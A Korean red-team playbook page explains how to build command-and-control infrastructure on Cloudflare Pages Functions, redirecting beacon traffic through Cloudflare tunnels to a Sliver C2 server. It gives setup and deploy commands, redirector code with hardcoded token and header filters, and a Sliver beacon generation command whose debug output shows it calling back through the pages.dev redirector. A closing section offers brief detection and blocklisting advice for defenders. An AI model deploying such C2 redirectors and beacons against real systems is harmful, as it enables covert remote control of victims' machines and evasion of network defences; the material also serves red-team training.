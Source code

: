 # Cloudflared Tunnel과 Pages

## 개념

<figure><img src="../.gitbook/assets/cloudflare-pages-rdr.png" alt=""><figcaption></figcaption></figure>

이전 페이지에서는 클라우드플레어 워커와 터널을 이용한 클라우드 공격자 인프라 구성에 대해서 알아봤다. 이번 페이지에서는 클라우드플레어 Pages Functions 기능을 활용해 워커 대신 리다이렉터를 생성하는 방법에 대해서 알아본다.

또한, 이번에는 수동으로 GUI를 사용하지 않고 Wrangler를 이용해 프로그래매틱하게 배포를 진행해본다.

## 클라우드플레어 페이지(Cloudflare Pages)

[클라우드플레어 페이지](https://developers.cloudflare.com/pages/)는 워커(Workers)와 비슷한 개념의 서버리스 컴퓨팅 서비스지만, 간단한 코드를 비롯해 JAM 스택 (Javascript, API, Markup) 기반의 웹 어플리케이션까지 지원하는 서비스다. 예를 들어 최근에 자주 쓰이는 React, SVelte, Next.JS 등의 프레임워크를 사용한 웹앱을 서버리스하게 운영하고 싶다면, 페이지를 사용하면 된다.

## 페이지 펑션(Cloudflare Pages Functions)

[페이지 펑션](https://developers.cloudflare.com/pages/functions/)은 페이지에서 풀스택 웹앱을 만들 수 있게 해주는 기능이다. 사용자 인증, Form submission, 미들웨어 등의 논리를 처리하는데 펑션이 사용된다. 웹 개발자가 아닌 레드팀의 입장에서 사실상 페이지 펑션은 워커(Worker)와 동일한 기능을 수행한다고 보면 된다.

파일 이름에 따라 routing이 정해지기 때문에 다음과 같은 디렉토리를 가지고 있다면:

```
./my-project 
  - index.html 
  - /public 
  - /functions 
    - myfunction.js
```

다음의 페이지를 방문할 때 `myfunction.js` 가 실행된다: `something.pages.dev/myfunction` . 이와 관련된 내용은 추후 인프라 구축 때 더 알아본다.

## 워커 vs. 페이지 펑션

리다이렉터로서 워커나 펑션은 모두 동일한 기능을 보여준다. 더 연구해보면 명확한 장단점이 나올수도 있겠지만, 적어도 개인적으로 공부한 내용에 따르자면 큰 차이는 없다. 다만 간단한 리다이렉터가 아니라 인증이나 미들웨어까지 포함한 완전한 기능을 갖춘 리다이렉터를 사용한다거나, 리다이렉터 뿐만 아니라 공격자 인프라로서 더 완전한 웹앱을 사용한다면 워커 보다는 페이지 펑션을 사용하는게 더 효율적일 것이다.

개인적으로 아직까지는 그냥 클라우드플레어를 이용한 리다이렉터의 옵션이 하나 늘어난 정도로 보고 있다.

## 트래픽 전송 단계

<figure><img src="../.gitbook/assets/cloudflare-pages-rdr (1).png" alt=""><figcaption></figcaption></figure>

모든 설정이 끝나면 공격자의 트래픽은 위 다이어그램 처럼 전송된다.

1. 에이전트) 페이지 펑션의 URL인 `<커스텀도메인>.pages.dev` 로 콜백한다.
2. 펑션) 들어오는 트래픽에 대해 HTTP 헤더, 헤더 값, User Agent등을 확인한다. 터널로 리다이렉트 하기 전 인증을 위해 서비스 토큰(CF-Access-Client-Id, CF-Access-Client-Secret)을 붙여 백엔드 터널로 보낸다.
   1. 펑션) C2 에이전트의 요청이라면 C2 터널로 리다이렉트 한다.
   2. (펑션) Ligolo-ng 의 요청이라면 Ligolo-ng 터널로 리다이렉트 한다.) - 다른 페이지에서 다룬다
3. 터널) 각 터널들은 서비스 토큰을 통해 인증을 확인한 뒤, 각 터널에 연결된 각 호스트들에게 트래픽을 보낸다. C2는 AWS에 있는 C2 서버의 127.0.0.1:443으로 보낸다.

## 인프라 구성 단계

먼저 페이지 펑션 리다이렉터를 구축해 워커와는 어떻게 다른지 알아본다. 그 뒤, Ligolo-ng용 터널을 따로 구축해본다.

1. 공격자 C2 서버, 도메인, Malleable C2, C2 서버로의 클라우드플레어 터널 연결
2. 페이지 펑션 구축

1번은 저번 페이지에서 이미 다뤘으니, 패스 한다. 이 페이지에서는 페이지 펑션 리다이렉터 구축에 대해 알아본다.

## 인프라 - 페이지 펑션 구축

저번 페이지에서 수동으로 워커를 구축해봤으니, 이번에는 Wrangler를 사용해 프로그래매틱하게 구축해본다.

1. 클라우드플레어 API와 소통하기 위한 CLI 프로그램으로 Wrangler를 설치한다. 설치 후 로그인한다.

```bash
sudo apt update -y 
sudo apt install npm nodejs -y 
npm install wrangler --save-dev 
npx wrangler login 
```

2. 페이지 펑션에 필요한 하드코딩 비밀들을 업데이트한다. 아래 두 파일의 첫 10줄 정도를 동일하게 업데이트 한다.&#x20;

* `./functions/index.js`
* `./functions/[[catchall]].js`

터널 URL, C2 HTTP 헤더/값, User Agent, CF-Access-Client-Id, CF-Access-Client-Secret 등을 업데이트 한다. 아래는 예시다.

<pre class="language-bash"><code class="lang-bash"><strong># git clone 
</strong><strong>cd /opt 
</strong>git clone https://github.com/ChoiSG/CloudflarePagesRedirector.git
cd ./CloudflarePagesRedirector

# index.js, [[catchall]].js 모두 동일하게 업데이트 
└─$ vim/emacs/nano/code/whatever... ./functions/index.js
└─$ vim/emacs/nano/code/whatever... './functions/[[catchall]].js'

# 예시 결과 
└─$ cat ./functions/index.js| head -10              
export async function onRequest(context) {
    // !! UPDATE ME !! - HARDCODED SECRETS. Use wrangler.toml if you prefer more opsec.
    const SLIVER_ENDPOINT = "https://resources-en.shealthinsurance.com";
    const LIGOLO_ENDPOINT = "https://resources-li.shealthinsurance.com";
    const SERVICE_CF_ID = "&#x3C;REDACTED>.access";
    const SERVICE_CF_SECRET = "&#x3C;REDACTED>";
    const SLIVER_HEADER_NAME = ["testo-XHeader", "redteam-Client"];
    const SLIVER_HEADER_VALUE = ["testov2", "v1.0.0"];
    const SLIVER_UA = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.3339.396 Safari/537.36";
    const LIGOLO_UA = "ligolo-ua";

</code></pre>

**추가 설명 - index.js와 `[[catchall]].js`는 어떤 파일인가?**

리다이렉터 특성상 들어오는 요청의 URL 전체 (host, path, parameters, value)를 전달해야한다. 하지만 페이지 펑션의 Routing은 해당 펑션 이름을 기반으로 이뤄진다. 예를 들어 펑션 이름이 `myfunc.js`라면, `something.pages.dev/myfunc`로 들어오는 요청만 해당 펑션이 트리거된다.

하지만 대부분의 C2 트래픽은 URL을 모두 사용하는 경우가 많다. 예를 들자면 `https://redteam-playbook.pages.dev/environment.gitignore?_g=6_65p46268&c=p38y725080` 처럼 말이다. 심지어 뒤의 path, filename, parameters, values는 모두 랜덤으로 지정되는 경우도 존재한다.

때문에 이를 해결하려고 `index.js` 와 `[[catchall]].js` 이라는 특별한 Routing을 지원하는 펑션을 만들고, `_routes.json`을 만들어 페이지로 들어오는 모든 요청의 path/filename/parameter와 상관없이 리다이렉터 펑션(index/catchall)이 트리거 되도록 설정해놨다.

3. 배포한다.

```bash
└─$ npx wrangler pages deploy $PWD --project-name redteam-playbook --branch=main
✔ The project you specified does not exist: "redteam-playbook". Would you like to create it? › Create a new project
✔ Enter the production branch name: … main
✨ Successfully created the 'redteam-playbook' project.

✨ Uploading Functions bundle
✨ Uploading _routes.json
🌎 Deploying...
✨ Deployment complete! Take a peek over at https://8af14ac0.redteam-playbook.pages.dev
```

4. DNS Propagation이 끝났다면 리다이렉터를 이용한다.

* DNS Propagation은 약 5분 정도 걸린다.&#x20;

```bash
# 10초마다 DNS 확인하기  
$ watch -n 10 nslookup redteam-playbook.pages.dev

# Sliver v1.5.42 - 비컨 생성 (디버그 ON) 
sliver > generate beacon -S 5 -J 1 --debug -f exe -b https://redteam-playbook.pages.dev -s /tmp/pages-beacon.exe

# 실행 
PS C:\Users\Administrator\Downloads> .\pages-beacon.exe
[ . . . ] 
beacon.go:167: Beaconing -> https://redteam-playbook.pages.dev
httpclient.go:343: [http] POST -> https://redteam-playbook.pages.dev/environment.gitignore?_g=6_65p46268&c=p38y725080 (266 bytes)
httpclient.go:392: [http] New session id: 9dcd90539103f3a41be278a47163618a
sliver.go:178: Registering beacon with server
```

5. 코드 업데이트 후 재배포에는 동일한 wrangler 명령어를 사용한다.

```bash
npx wrangler pages deploy $PWD --project-name redteam-playbook --branch=main 
```

## 마치며

워커나 펑션 페이지를 이용하면 클라우드플레어의 `<커스텀도메인>.worker.dev` 혹은 `<커스텀도메인>.pages.dev` 을 이용해 C2 에이전트의 콜백을 받는 인프라를 간단하게 구성할 수 있다. 공격자의 입장에서는 도메인 신뢰도, 에이징, SEO, 스팸 필터, SSL/TLS 인증서 헌팅 등에 대해 거의 신경 쓸 필요가 없어지기 때문에 굉장히 편하다. 도메인 프론팅이나 리다이렉트에는 어쨌든 공격자의 CDN 및 도메인이 들어가기 마련인데, 위 방법의 경우는 그럴 필요가 없다.

방어자의 입장에서는 현재 환경에서 나가는 트래픽에 대해서 더 자세히 살펴봐야할 것이다. 우리 회사 특정 엔드포인트가 클라우드플레어 워커/페이지에 나름 일정한 주기로 계속해서 HTTP 요청/응답을 주고 받고 있다면, 충분히 의심스러운 상황이다. 아니면 아예 `worker.dev, pages.dev` 등의 도메인 자체를 블랙리스트 해버리는 경우도 있겠다.

물론 요즘 SaaS 및 서버리스 트렌드에 따라 더 많은 서비스들과 인터넷 트래픽이 더이상 커스텀 도메인을 사용하지 않고, 클라우드 회사들의 도메인을 사용하고 있기 때문에 블랙리스트는 좀 더 신중하게 해야할 것이다. 수 많은 클라우드 회사의 수 많은 서비스들을 일일히 찾아가며 별의별 도메인 (`worker.dev, pages.dev, azurewebsite.net, azureedge.net, azure-api.net, 등등등...)` 을 모두 차단해버린다면, 요즘날의 인터넷을 사용하거나, 이를 바탕으로 개발하는 것이 거의 불가능할지도 모르겠다 싶다.
